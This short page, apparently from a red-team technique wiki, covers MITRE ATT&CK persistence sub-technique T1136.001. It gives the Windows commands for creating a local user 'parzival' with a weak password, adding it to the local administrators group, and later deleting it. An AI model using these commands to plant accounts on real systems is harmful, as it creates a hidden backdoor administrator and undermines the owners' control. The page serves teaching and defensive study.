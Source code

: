 ```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1136.001
---
```


# Local Account

After gaining administrator access to the system run the following command to create a local user account:&#x20;

```powershell
net user parzival password123 /add
```

We then have the option of adding this account to the local administrators group:

```bash
net localgroup administrators parzival /add
```

Finally, we can delete this account once it is no longer needed:

```bash
net user parzival /del
```
